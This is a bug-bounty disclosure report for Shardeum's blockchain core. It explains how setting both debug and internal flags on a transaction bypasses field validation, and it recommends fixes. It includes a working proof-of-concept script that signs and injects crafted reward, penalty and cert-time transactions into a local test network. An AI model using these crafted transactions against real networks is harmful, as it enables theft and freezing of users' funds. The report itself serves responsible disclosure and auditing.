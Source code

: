 # #35695 \[BC-Critical] validateTxnFields check for internal transactions can be bypassed

**Submitted on Oct 3rd 2024 at 18:54:49 UTC by @Merkle\_Bonsai for** [**Audit Comp | Shardeum: Core II**](https://immunefi.com/audit-competition/shardeum-core-ii-boost)

* **Report ID:** #35695
* **Report Type:** Blockchain/DLT
* **Report severity:** Critical
* **Target:** https://github.com/shardeum/shardeum/tree/dev
* **Impacts:**
  * Direct loss of funds
  * Permanent freezing of funds (fix requires hardfork)

## Description

## Brief/Intro

\`validateTxnFields\` can be bypassed by sending transaction that has both \`isDebugTx\` and \`isInternalTx\` flags. This allows to ignore several checks in multiple internal TX calls.

This is multiple vulnerabilities sharing same vector, so I'm reporting it all together. I will appreciate if they will be taken into resulting score separately. I decided to report them together, as it provides the whole picture, being more valuable for project.

## Vulnerability Details

All logic parts in app are working by logic "if internal, then X, else if debug, then Y, else Z". However, validateTxnFields breaks that rule, doing "if debug, then X, else if internal, then Y, else Z". That allows attacker node to bypass following impactful checks:

* for \`InternalTXType.InitRewardTimes\`: \`tx.nodeActivatedTime\` is between 0 and current timestamp (yet it still should be <= \`nodeAccount.rewardStartTime\`)
* for \`InternalTXType.ClaimReward\`: \`tx.deactivatedNodeId\` is actually deactivated
* for \`InternalTXType.Penalty\`: \`tx.violationType\` is within range, \`tx.violationData\` exists. Yet, it is double-executed inside \`applyPenaltyTX\`, protecting from bad things to happen.
* for \`InternalTXType.SetCertTime\`: signature belongs to nominee, duration is correct

## Impact Details

For \`InitRewardTimes\`, it theoretically allows to set negative \`rewardStartTime\`, allowing to get very large rewards (yet I wasn't able to execute it) For \`ClaimReward\`, it is possible to unstake while node is still working, and pass negative \`nodeDeactivatedTime\`. This can potentially be very impactful when used together with negative \`rewardStartTime\` of \`InitRewardTimes\` tx. For \`SetCertTime\`, \`duration\` is overridden, so it's not possible to explicitly trick it, but skipped signature check allows to impersonate \`nominee\`, taking bits from target user infinitely (and for free), and also preventing specific nominator from unstaking

## Recommendations

1. fix order of \`validateTxnFields\`
2. disallow transactions being both debug and internal, considering them definitely faulty

## Proof of Concept

## Proof of Concept

Please note that this PoC demonstrates multiple attacks at same time - sadly, any other code example will be larger and more verbose. This PoC is partially shared with my other report ("Specifically crafted penalty TX may cause total network shutdown"), however, it is simplest way to demonstrate the attack vector described above. certTime as a call is added here.

Since this requires some manually observed delay, attack is done in several steps, with switching the step iterationally (stake-init-penalty or stake-init-certTime).

I'm using 10-node configuration, production mode, with only account \`0xCf551a61548863765bf635feaAa2501636B91908\` added to genesis and change in \`getExternalApiMiddleware\`, that allows to use node 9005 without auth: \`\`\` export const getExternalApiMiddleware = () => { return (req, res, next): unknown => { const { path, method } = req

```
let isAllowed &#x3D; true // Default to true
const isBadNode &#x3D; p2pSelf.getThisNodeInfo().externalPort &#x3D;&#x3D;&#x3D; 9005
if (isBadNode) {
  next()
  return
}
...
```

\`\`\`

\`\`\` const keypair = JSON.parse(await fs.readFile('../instances/shardus-instance-9005/secrets.json'))

const provider = new ethers.JsonRpcProvider('http://localhost:8080', 8082, { batchMaxCount: 1 }) const walletWithProvider = new ethers.Wallet( '0x82beccb10f7c4552334dbf1d778a88d7749656fc329ca4ea4c66f714ed7760fb', provider ) // address 0xCf551a61548863765bf635feaAa2501636B91908 console.log('address', walletWithProvider.address) const stakeRequired = BigInt('0x8ac7230489e80000')

enum Step { stake, init, unstake, penalty, certTime }

const step = Step.penalty

switch (step) { case Step.stake: { const raw = await walletWithProvider.signTransaction({ to: '0x0000000000000000000000000000000000010000', gasPrice: '30000', gasLimit: 30000000, value: stakeRequired, chainId: 8082, data: ethers.hexlify( ethers.toUtf8Bytes( JSON.stringify({ isInternalTx: true, internalTXType: InternalTXType.Stake, nominator: walletWithProvider.address.toLowerCase(), timestamp: Date.now(), nominee: keypair.publicKey, stake: { dataType: 'bi', value: stakeRequired.toString(16) }, }) ) ), nonce: await walletWithProvider.getNonce(), }) await post('http://127.0.0.1:9005/inject', { raw, timestamp: Date.now(), appDataOverride: { networkAccount: networkAccount, }, }) break } case Step.init: { await post( 'http://127.0.0.1:9005/inject', crypto.signObj( { publicKey: keypair.publicKey, isDebugTx: true, isInternalTx: true, internalTXType: InternalTXType.InitRewardTimes, nominee: keypair.publicKey, nodeActivatedTime: 1, timestamp: Date.now() - 5 \* 60000, // should be quite in the past }, keypair.secretKey, keypair.publicKey ) ) break } case Step.penalty: { await post( 'http://127.0.0.1:9005/inject', crypto.signObj( { publicKey: keypair.publicKey, isDebugTx: true, isInternalTx: true, internalTXType: InternalTXType.Penalty, reportedNodePublickKey: keypair.publicKey, operatorEVMAddress: walletWithProvider.address, timestamp: -1, }, keypair.secretKey, keypair.publicKey ) ) break; } case Step.certTime: { await post( 'http://127.0.0.1:9005/inject', crypto.signObj( { publicKey: keypair.publicKey, isDebugTx: true, // without this flag it will cause "Invalid signature for SetCertTime tx" error due to incorrect nominee isInternalTx: true, internalTXType: InternalTXType.SetCertTime, nominator: walletWithProvider.address, nominee: keypair9001.publicKey, nodeActivatedTime: Date.now(), timestamp: Date.now(), }, keypair.secretKey, keypair.publicKey ) ) break } } \`\`\`
